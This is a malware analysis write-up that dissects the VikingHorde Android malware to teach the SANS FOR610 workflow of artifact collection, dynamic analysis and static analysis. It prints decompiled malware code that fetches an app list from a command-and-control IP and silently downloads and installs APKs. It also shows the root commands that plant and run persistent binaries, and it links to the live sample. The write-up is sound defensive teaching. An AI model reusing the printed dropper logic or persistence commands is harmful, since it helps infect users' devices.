



VikingHorde Android Malware Analysis
====================================

Malware analysis, just like any analysis, must follow a methodology that would abstract the workflow and direct the analyst's attention towards the important bits in order to maximize efficiency. Furthermore, following a methodology allows the analyst to take a surgical approach towards dissecting the sample rather than get lost analyzing an irrelevant code snippet or, even worse, confuse the functionality and introduce errors during the reporting stage.

In this write-up, the Android malware titled **VikingHorde** will be used as a demonstration to test the malware analysis methodology taught by [SANS FOR610](https://www.sans.org/course/reverse-engineering-malware-malware-analysis-tools-techniques) class. It boils down to three major stages:

- Artifact collection
- Dynamic analysis
- Static analysis

The malware can be downloaded [here](https://github.com/ytisf/theZoo/tree/master/malwares/Binaries/Android.VikingHorde).

There have been previous Write-ups from [CheckPoint](https://github.com/ytisf/theZoo/tree/master/malwares/Binaries/Android.VikingHorde) and [CNET](https://www.cnet.com/news/viking-horde-malware-attacks-android-devices/) regarding the same malware.

**DISCLAIMER**: This is very much a live malware. Experiment at your own peril.


Artifact Collection
-------------------

[VirusTotal](https://www.virustotal.com/en/file/254c1f16c8aa4c4c033e925b629d9a74ccb76ebf76204df7807b84a593f38dc0/analysis/) has a good automated breakdown. Unpacking and decoding the `AndroidManifest.xml` should reveal more.

### Permissions
```
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
<uses-permission android:name="android.permission.READ_PHONE_STATE"/>
<uses-permission android:name="com.android.vending.BILLING"/>
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
<uses-permission-sdk-23 android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
```

None of the above really stand out as critical. A few preliminary thoughts on the above: 
- `WRITE_EXTERNAL_STORAGE`: Files will be written in world-writeable locations
- `RECEIVE_BOOT_COMPLETED`: Check the `</receiver>` tag for receivers of `BOOT_COMPLETED` intent.

### Activities
```
org.cocos2dx.cpp.AppActivity
com.google.android.gms.ads.AdActivity
com.chartboost.sdk.CBImpressionActivity
```

They're using [Cocos2dx](https://cocos2d-x.org/) game engine which is a C++/Lua engine. There are other activities, which mean they definitely modified the Java side. The `AppActivity` could be doing more than just initializing the Cocos2dx engine.

### Services
```
com.fa.c.SystemService
com.fa.c.StartService
```

- The `SystemService` has an `android:process` property of `com.system.service`
- Boot/PowerOff/PowerOn/Connectivity Receivers all exist in `com.fa.c`
- `VikingJump.InstallReceiver` is a receiver for `INSTALL_REFERRER` intent. This is [Google Play's Install Referrer](https://developer.android.com/google/play/installreferrer) that is used to get the referrer. It has been recently replaced with a newer API, but back in 2016 when this malware was out, this was the only way of attributing a referred install to advertisement click.

### Interesting Strings
I like VirusTotal's string collection mechanism. It's simple and uniform across all file types:

```
http://176.9.138.114:7777/ecspectapatronum/
http://hostname/?
http://loginprotect.mobi/callback.php?referer=
http://market.android.com/
http://plus.google.com/
http://schema.org/ActivateAction
http://schema.org/ActiveActionStatus
http://schema.org/AddAction
http://schema.org/BookmarkAction
http://schema.org/CommunicateAction
http://schema.org/CompletedActionStatus
http://schema.org/FailedActionStatus
http://schema.org/FilmAction
http://schema.org/LikeAction
http://schema.org/ListenAction
http://schema.org/PhotographAction
http://schema.org/ReserveAction
http://schema.org/SearchAction
http://schema.org/ViewAction
http://schema.org/WantAction
http://schema.org/WatchAction
http://schemas.android.com/apk/lib/com.google.android.gms.plus
http://www.google-analytics.com
http://www.google.com
https://accounts.google.com
https://app-measurement.com/a
https://csi.gstatic.com/csi
https://googleads.g.doubleclick.net/mads/static/mad/sdk/native/mraid/v2/mraid_app_banner.js
https://googleads.g.doubleclick.net/mads/static/mad/sdk/native/mraid/v2/mraid_app_expanded_banner.js
https://googleads.g.doubleclick.net/mads/static/mad/sdk/native/mraid/v2/mraid_app_interstitial.js
https://googleads.g.doubleclick.net/mads/static/mad/sdk/native/sdk-core-v40.html
https://live.chartboost.com
https://login.live.com
https://login.yahoo.com
https://play.google.com/store/apps/details?id=com.Jump.VikingJump
https://ssl.google-analytics.com
https://twitter.com
https://www.facebook.com
https://www.googleapis.com/auth/appstate
https://www.googleapis.com/auth/datastoremobile
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.appdata
https://www.googleapis.com/auth/drive.apps
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/fitness.activity.read
https://www.googleapis.com/auth/fitness.activity.write
https://www.googleapis.com/auth/fitness.body.read
https://www.googleapis.com/auth/fitness.body.write
https://www.googleapis.com/auth/fitness.location.read
https://www.googleapis.com/auth/fitness.location.write
https://www.googleapis.com/auth/fitness.nutrition.read
https://www.googleapis.com/auth/fitness.nutrition.write
https://www.googleapis.com/auth/games
https://www.googleapis.com/auth/games.firstparty
https://www.googleapis.com/auth/plus.login
https://www.googleapis.com/auth/plus.me
https://www.googleapis.com/auth/plus.moments.write
https://www.googletagmanager.com
https://www.linkedin.com
https://www.paypal.com
```

We can safely ignore the LinkedIn, PayPal and other googleapis.com hosts. The two most interesting ones are the `176.9.138.114:7777` and `loginprotect.mobi` hosts. The first one could be a C&C server. The second could be used for passing install referrers as callback parameters for CPI ([Click-per-install](https://www.businessofapps.com/ads/cpi/research/cost-per-install/)) campaigns.

VirusTotal's help can stop right here since most of what will be discussed below was not found in their analysis.

### Raw Resources
```
- aps_exec
- aps_exec_watch_dog
- gtm_analytics
```

We got some ELF binaries here.

### Native Libs
```
libaps_exec.so
```

In Android, `.so` shared objects are used to call the Java Native Interface (JNI) to get more granular access to the system. This is possible through [Android NDK toolset](https://developer.android.com/ndk). We'll have to look out for functions with the `native` keyword since they call that underlying layer.

Dynamic Analysis
----------------

### Environment Setup
- Rooted Nexus 5X device (API 24) with [LineageOS](https://lineageos.org) installed
    - However, only ADB (Android Debug Bridge) has root access ([more info](https://www.theandroidsoul.com/root-lineage-os-su-addon-zip-download/)) so technically, the apps running cannot recognize if this device is rooted.
- [mitmproxy](https://mitmproxy.org/) running as a transparent proxy with all traffic routed to it ([great explanation](https://docs.mitmproxy.org/stable/concepts-modes/) on the difference between transparent and non-transparent proxying)
- Run the first pass of `./script/andmon.sh` to check for newly-created files (more on that later)


#### Protection by Google Play
When analysing malware on Windows, you should use a virtual machine that has its anti-virus turned off.

When analysing malware on Android, [Google Play Protect](https://www.android.com/play-protect/) will block the installation, especially if it was an older malware. The good thing is that Google will put that decision in the user's hand.




#### ARM vs x86 Android Emulators
It's important to note that ARM emulators on Android are slow and practically unusable. This is because most host machines run x86 and executing ARM instructions on an x86 machine is terribly slow. In most cases, the analyst can get away with running an x86 emulator on an x86 host. In our case, however, VikingHorde has a native library, `libaps_exec.so`, which is built for ARM devices only.

In most cases, running a malware on a rooted device is about the most harmful thing one can do. With LineageOS, however, we have the ability to disable root access for apps, which is what I've done with this analysis.

There are some interesting alternatives that could be useful to look into. Intel's [libhoudini](https://commonsware.com/blog/2013/11/21/libhoudini-what-it-means-for-developers.html) allows ARM instructions to run on x86 hardware. There's also [Anbox](https://github.com/anbox/anbox/) which is basically a container solution for Android systems.


### Network Artifacts



Around 3 minutes after running the app and playing with it for a while, we see a lot of requests to `chartboost` and the ominous two requests to `http://176.9.138.114:7777/ecspectapatronum/` and `http://loginprotect.mobi/callback.php?referer=`. 

[Chartboost](https://www.chartboost.com) is an in-app monetization platform.

The `ecspectapatronum` and `loginprotect.mobi` requests, however, timed out since the servers are not online at the time of the analysis. The static analysis part should tell us how that should've been processed.


### Running Services

ADB (Android Debug Bridge) is your Android swiss-army knife. It contains all the necessary commands to enumerate the entire running device.

```
[0] % adb shell dumbsys activity services | grep -A2 -B2 com.Jump.vikingJump

ACTIVITY MANAGER SERVICES (dumpsys activity services)
  User 0 active services:
  * ServiceRecord{44bbcf5 u0 com.Jump.vikingJump/com.fa.c.SystemService}
    Intent={cmp=com.Jump.vikingJump/com.fa.c.SystemService}
    packageName=com.Jump.vikingJump
    processName=com.system.service
    baseDir=/data/app/com.Jump.vikingJump-1/base.apk
    isForeground=true
```

`com.Jump.vikingJump` is the package name of our app. We got it from the manifest.

`com.fa.c.SystemService` is a long-running service running in the background (the words foreground here doesn't mean the user can see it). We can also see that it is masquerading under `processName=com.system.service`.


### File Monitoring

#### About `scripts/andmon.sh`
`scripts/andmon.sh` is basically poor-man's version of [RegShot](https://code.google.com/archive/p/regshot/) for files.

The first time it runs, it will place an empty `timestamp` file in the Android device

The second time it runs, it will basically dump a record of all the changed files in the system

Currently, it doesn't understand symbolic links and it requires [busybox](https://busybox.net) to download. `scripts/install_busybox.sh` is a quick way to bootstrap a rooted device.

#### Results of `scripts/andmon.sh`
`scripts/andmon.sh` script found a few interesting artifacts.

```
/storage/emulated/0/.chartboost/templates/5c77cXXXXXXXXXXXX904bcba/playable-core-v2-CBCloseButton-1892566107
/storage/emulated/0/.chartboost/templates/5c77cXXXXXXXXXXXX904bcba/chartboost-yanyuliang-blockpuzzlejewel
/storage/emulated/0/.chartboost/templates/5c77cXXXXXXXXXXXX904bcba/57e649d0XXXXXXXXXXXXXXc5.114
/storage/emulated/0/.chartboost/videos/5bfe50a1XXXXXXXXXXXXXXXXXXXXXXXXXX93441.mp4
/storage/emulated/0/.chartboost/videos/5c07b096XXXXXXXXXXXXXXXXXXXXXXXXXX07830.mp4
/storage/emulated/0/.chartboost/videos/5bfe5383XXXXXXXXXXXXXXXXXXXXXXXXXX94180.mp4
/storage/emulated/0/.chartboost/videos/5b779c0aXXXXXXXXXXXXXXXXXXXXXXXXXX65386.mp4
/storage/emulated/0/.chartboost/videos/5baa2260XXXXXXXXXXXXXXXXXXXXXXXXXX76576.mp4
/storage/emulated/0/.chartboost/videos/5bca9978XXXXXXXXXXXXXXXXXXXXXXXXXX04216.mp4
/storage/emulated/0/.chartboost/html/playable-core-v2-CBCloseButton-1892566107
/storage/emulated/0/.chartboost/images/chartboost-yanyuliang-blockpuzzlejewel.css
/storage/emulated/0/.chartboost/images/57e649d0XXXXXXXXXX63a3c5.114.png
/storage/emulated/0/.chartboost/images/chartboost-yanyuliang-blockpuzzlejewel.js
/storage/emulated/0/.chartboost/.adId

/data/data/com.android.vending/cache/logs/com.google.cyberXXXXXXXXXX2%40gmail.com.metalog/play_metalog.log
/data/data/com.android.vending/cache/logs/com.google.cyberXXXXXXXXXX2%40gmail.com.metalog/logs_upload_attempt.log

/data/data/com.Jump.vikingJump/cache/.chartboost/session/cb_previous_session_info
/data/data/com.Jump.vikingJump/cache/1542658731108.tmp
/data/data/com.Jump.vikingJump/shared_prefs/com.Jump.vikingJump_preferences.xml
/data/data/com.Jump.vikingJump/shared_prefs/cbPrefs.xml
/data/data/com.Jump.vikingJump/shared_prefs/WebViewChromiumPrefs.xml
/data/data/com.Jump.vikingJump/shared_prefs/admob.xml
/data/data/com.Jump.vikingJump/shared_prefs/GAMEHELPER_SHARED_PREFS.xml
/data/data/com.Jump.vikingJump/shared_prefs/com.google.android.gms.measurement.prefs.xml
/data/data/com.Jump.vikingJump/app_webview/webview_data.lock
/data/data/com.Jump.vikingJump/app_webview/Web Data
/data/data/com.Jump.vikingJump/app_webview/Web Data-journal
/data/data/com.Jump.vikingJump/app_webview/metrics_guid
/data/data/com.Jump.vikingJump/app_webview/Cookies
/data/data/com.Jump.vikingJump/app_webview/Cookies-journal
```

Findings:
- The `chartboost` SDK that's included in the app created a `/storage/emulated/0/.chartboost` directory and it saved some cache and tmp files. Some of them are related to the played video ad.
- `com.android.vending` registered my email address in some logs. That's pretty natural since Google Play Games was invoked
- `com.jump.vikingjump` stored many files in `shared_prefs`, a key-value store for apps. This would be worth checking
- `com.jump.vikingjump` stored some files in `app_webview` which is a directory that a [WebView](https://developer.android.com/reference/android/webkit/WebView) would have write-access to.

Looking deeper into `/data/data/com.Jump.vikingJump/shared_prefs/com.Jump.vikingJump_preferences.xml`:



We'll have to go through the static analysis step to understand those values. We can infer that `KEY_INSTALL_TYPE=0` might mean that the app detected this device as non-rooted, though.


### Questions For the Next Step
- What is the meaning of the values saved in `com.Jump.vikingJump_preferences.xml`?
- What is the expected output of `http://176.9.138.114:7777/ecspectapatronum/` and `http://loginprotect.mobi/callback.php?referer=`?
- What are the `native` function in `libaps_exec.so`?
- What is the function of `aps_exec` and `aps_exec_watch_dog` binaries?


Static Analysis
---------------

### Rule Zero
Before diving into decompilers and disassemblers, it's important to note that mapping out the entire application is exhausting, time wasting, and downright **wrong**.

A better approach would be to come up with a **set of questions** and search for the answers inside the disassembled code. 

Such a methodology would disregard and go beyond the binary type and disassembling tooling since the analyst can use any tool at hand to answer those questions, if they are answerable at all during the code analysis step.

To summarize, **come up with a set of questions based on the past two stages BEFORE diving head first into a disassembler**.


### Disassembler Requirements
Whichever tooling one would use, it is necessary for it to include three features:
- Ability to comment and rename functions
- Ability to search through the code
- Ability to rename functions
- Possibly, the ability to generate a proper report from the above two


The Dalvik decompiler used for this analysis was [Jadx](https://github.com/skylot/jadx). Jadx dumps everything as .java files. This allows the analyst to use simple Unix tools to comment, rename and build reports based on the findings, namely the following tools:

- Ability to comment and rename functions
    - Using Vim & sed
- Ability to search through the code
    - Using vim & [Universal Ctags](https://ctags.io)
- Possibly, the ability to generate a proper report from the above two
    - Using a (`scripts/anal_dump.sh`)


### Entry Point Dissection
Before answering any questions, it is recommended that the analyst starts from the known entry point of the application and map out the basic lay of the application. 

In Android, the entry point of the application is located in `AndroidManifest.xml`'s `</Application>`, under the attribute `android:name`. 

In this app, however, there is no such attribute. The next possible entry point is the activity that has the `android.intent.action.MAIN` action and `android.intent.category.LAUNCHER` category. Reading the manifest would reveal that this is `org.cocos2dx.cpp.AppActivity`:

**NOTE**: Jadx does a very good job with decompiling Dalvik bytecode, however, for the purposes of this write-up, the decompiled code below was simplified by me. Furthermore, Jadx is an open-source tool and it fails/prints wrong code more often than not. This is why dynamic analysis is vital and cannot be skipped.

**NOTE 2**: The **ANAL** tag above is my own breakdown of the function. It's best to achieve uniformity in formatting so as to simplify the report generation process-- using `scripts/anal_dump.sh` in our case.

```java
/** ANAL: AppActivity class
 * 
 * App's entry point
 *
 */
public class AppActivity extends com.carlospinan.utils.UtilActivity {
    protected void onCreate(android.os.Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
}
```

As we can see, the class is pretty small. The main point of note is the `UtilActivity` inheritance. This means that `UtilActivity` overridden functions will be first executed before reaching to the half-empty `AppActivity` functions:

```java
/** ANAL: UtilActivity.onCreate()
 *
 * Entry point
 *
 * - Call SetRandomNames()
 * - Call WriteDeviceInfo()
 * - Call Install()
 */
protected void onCreate(android.os.Bundle savedInstanceState) {
    this.installType = com.p003fa.p004c.Utilities.GetInstallType(this.context);

    if (!com.p003fa.p004c.Utilities.IsRandomNames(this.context)) {
        com.p003fa.p004c.Utilities.SetRandomNames(this.context);
    }

    WriteDeviceInfo();
    Install(this.installType);
    GameInit();
}
```

The most important part of the above is the `Install()` function. Looking deeper into it, we'll note that `Install()` is split into two: `InstallAsRoot()` and `InstallAsNonRoot()`:

- `InstallAsNonRoot()` would start a foreground service to persist when the user navigates away from the app
- `InstallAsRoot()` would execute the following is a lot more venal
    - Open the raw resources of `aps_exec` and `aps_exec_watch_dog` binaries
    - Copy them to a file in a world-writeable location
    - Execute the following commands as root:
        ```
         * $ cat loc_of(watchdog) > /data/watchdog
         * $ cat loc_of(apsexec) > /data/apsexec
         * $ chmod 777 /data/watchdog
         * $ chmod 777 /data/apsexec
         * $ /data/watchdog cmd_args /data/apsexec phone_num
         *
         * Where:
         *
         * - "cmd_args" is device data to be used for ad attribution purposes
         * - "phone_num" is the phone number associated with that device, possibly used as an identifer
        ```
    - Delete the binaries from their world-writable location but keep them persistent and active in `/data` directory.


### What is the Meaning of The Random Names in Shared Preferences?
From the analysis of `UtilActivity.onCreate()` above, we see there is a call to `SetRandomNames()`.

Looking deeper into `UtilActivity.InstallAsRoot()` shows that `aps_exec` and `aps_exec_watch_dog` will be installed with a random name from the following list taken from `Utilities`:

```
private static java.lang.String[] names = new java.lang.String[]{"update.dat", "settings.bin", "update.bin", 
"settings.dat", "kernel.bin", "core.bin", "core.sys", "hot_fix.dat", "android.bin", 
"sys.bin", "inet.dat", "wifi.bin", "fix.bin", "sys_driver.sys", "lock.dat"};
```

Afterward, the chosen name will be saved in shared preferences under `com.Jump.vikingJump_preferences.xml`. This actually explains the names we found earlier during dynamic analysis.


### What is the output of `http://176.9.138.114:7777/ecspectapatronum/`?
`UtilActivity.InstallAsNonRoot()` runs a runnable background thread which will call `UtilActivity.InstallTaskHandler()`.

The purpose of this function is to make a GET request to `http://176.9.138.114:7777/ecspectapatronum/` and fetch a JSON array:

```java
/** ANAL: SystemService.InstallTaskHandler()
 *  - Sleep 3 minutes
 *  - Make a GET reqeust to http://176.9.138.114:7777/ecspectapatronum/ and fetch a JSON array of app names and download urls
 *  - Get a list of installed apps
 *  - Run through the fetched JSON array
 *      - Check that the app is not already installed
 *      - Download -> install -> delete the APK
 */

private void InstallTaskHandler() {
    java.lang.Thread.sleep(180000); 

    while (true) {
        Java.lang.String r = "http://176.9.138.114:7777/ecspectapatronum/";
        org.json.JSONArray jsonApps = new org.json.JSONObject(BytesToUTF8String(HttpGet(r))).getJSONArray("t");

        this._installedApps = GetInstalledApps();
        for (int i = 0; i < jsonApps.length(); i++) {
            org.json.JSONObject appJson = jsonApps.getJSONObject(i);
            Java.lang.String api        = appJson.getString("api");
            java.lang.String bundle     = appJson.getString("bid");
            java.lang.String id         = appJson.getString("id");
            java.lang.String url        = appJson.getString("url");
            java.lang.String hash       = appJson.getString("hash");

            if (IsAppInstalled(bundle)) {
                continue;
            }
            this._installTasks.add(new com.p003fa.p004c.SystemService.InstallTask(id, bundle, url, hash, api));
            ...
            ...
        }
    }
}
```

Analyzing further, we see that the JSON array contains information about different Android apps and a URL to download those APKs.

The function of the infinite `while(true)` loop above is:
- Check if that app exists in the device
- If not, download -> install -> delete and uninstall
- Repeat until every element in the response is parsed

Every time an app is installed, an `INSTALL_REFERRER` will be fired with the referrer of that install. Looking back in the **Artifact Collection** stage, there was an `InstallReceiver` receiver registered to receive `INSTALL_REFERRER` intents. 

The end result of that receiver is to fire a callback to `http://loginprotect.mobi/callback.php?referer=` and attaching the received referrer from `INSTALL_REFERRER` in that callback, completing the transaction.


### Report Generation with `scripts/anal_dump.sh`
I made a small bash script to generate a report based on the commenting format we've made. The report output will look like this:

```bash
[0] % ./scripts/anal_dump.sh android.vikinghorde/dump_jadx/sources/com/ | head -50
>>>>>>>>>>>>>>>>> android.vikinghorde/dump_jadx/sources/com/p003fa/p004c/BootReceiver.java

/** ANAL: BootReceiver class
 *
 * - Not rooted:
 *   - launch SystemService
 * - Rooted:
 *   - Relaunch watchdog and appsexec executables (see ANAL RootCommandExecutor for breakdown)
 */

<<<<<<<<<<<<<<<<<<<<<<<

>>>>>>>>>>>>>>>>> android.vikinghorde/dump_jadx/sources/com/p003fa/p004c/RootCommandExecutor.java

/** ANAL: RootCommandExecutor class
 *
 * Commands executed:
 *
 * $ cat watchdog > /data/watchdog
 * $ cat apsexec > /data/apsexec
 * $ chmod 777 watchdog
 * $ chmod 777 apsexec
 * $ /data/watchdog cmd_args /data/apsexec exchange_file phone_num
 *
 * Where:
 *
 * - cmd_args = return new java.lang.StringBuilder(java.lang.String.valueOf(new java.lang.String(idBytes, "UTF-8"))).append(" ").append(timeOffsetByte).append(" ").append(version).append(" ").append(batery).append(" ").append(isWifi).toString();
 * - exchange_file = <RANDOM>
 * - phone_num = <PHONE_NUMBER>
 */

<<<<<<<<<<<<<<<<<<<<<<<

>>>>>>>>>>>>>>>>> android.vikinghorde/dump_jadx/sources/com/p003fa/p004c/SystemService.java

/** ANAL: receiver_RRR_AAA_FFF broadcast receiver
 *
 * RRR_AAA_FFF is a broadcast that gets launched from InstallReceiver and resent from
 * onNewIntent
 *
 * - Set the extra "r" to `this.ref`
 */
/** ANAL: runnable_loginprotect_callback Runnable
 *  - Sleep 3 minutes
 *  - Send callback to loginprotect.mobi
 */

<<<<<<<<<<<<<<<<<<<<<<<
```

Using such a report, the analyst can leave the disassembler and use the above report as readable summaries of the analyzed functions. 

Personally, I usually alternate between writing summaries above the function declaration, just as shown above, and between having a draft buffer open in my text editor where I categorize simple connections and how they relate to each other.


Conclusion
----------

I fear I made this write-up too long already since the point is to explore the analysis methodology, not write a full-blown report. The last two questions we mentioned in the **Questions For the Next Step** will be left for the reader to explore.

In this write-up, three stages of analysis were explored:
- Artifact collection
- Dynamic analysis
- Static analysis

The analyst will find themselves oscillating between the dynamic and static stages quite often since one piece of information during the static analysis would bring the analyst to modify their test environment and run it again.

In our malware, it would be very interesting to have `mitmproxy` or [Inetsim](https://www.inetsim.org/documentation.html) return a valid JSON array when the malware requests `http://176.9.138.114:7777/ecspectapatronum/` and then track the execution of the malware live.

Furthermore, a few reporting techniques were mentioned, along with a pragmatic approach to static analysis, which, in the opinion of most analysts, is the most procrastinated/terrifying stage of the analysis. To repeat, the static analysis stage must never be approached blindly. The analyst **must** have a set of questions and a logical location on where to start answering those questions in mind, preferably written down, before looking at disassembly tooling.
